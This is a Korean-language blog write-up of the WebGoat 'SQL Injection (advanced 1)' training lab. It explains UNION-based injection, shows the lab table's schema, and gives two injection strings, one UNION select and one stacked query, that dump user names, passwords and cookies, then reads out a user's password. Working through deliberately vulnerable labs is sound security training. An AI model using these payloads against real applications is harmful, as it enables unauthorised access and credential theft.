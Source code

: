 ```yaml
---
layout: post
title: WebGoat - SQL Injection (advanced 1)
date: 2021-01-10 17:30:00 +0900
category: Web_Hacking
---
```


# WebGoat - SQL Injection (advanced 1)

#### 다른 테이블에서 데이터 추출하기

<br/>

> Union SQL Injection이란 2개 이상의 쿼리를 요청하여 결과를 얻는 UNION 연산자를 이용해 데이터베이스를 조작하는 공격이다.

<br/>

WebGoat 데이터베이스의 여러 테이블 중 하나는 다음과 같다.

```shell
CREATE TABLE user_system_data (userid int not null primary key,
			                   user_name varchar(12),
			                   password varchar(10),
			                   cookie varchar(30));
```

<br/>

#### a) UNION 또는 JOIN으로 테이블들 결합하기

이전 문제에 사용했던 'Smith'를 입력해보면 7개의 애트리뷰트를 가진 다른 테이블을 확인할 수 있다.

![webgoat_sqli_adv1](/public/img/webgoat_sqli_adv1.PNG)

<br/>

이 테이블과 user_system_data 테이블을 UNION으로 결합해보자. 이 때, 애트리뷰트의 개수를 맞춰주어야 한다. 

```shell
Smith' union select userid, user_name, password, cookie, null, null, null from user_system_data --
```

![webgoat_sqli2_adv2](/public/img/webgoat_sqli_adv2.PNG)

<br/>

다중 쿼리를 이용해서 문제를 풀 수도 있다.

```shell
'; select * from user_system_data --
```

![webgoat_sqli2_adv2](/public/img/webgoat_sqli_adv2-2.PNG)

<br/>

#### b) Dave의 password 추출하기

위의 결과를 통해 Dave의 password는 passW0rD임을 알 수 있다.

![webgoat_sqli2_adv3](/public/img/webgoat_sqli_adv3.PNG)




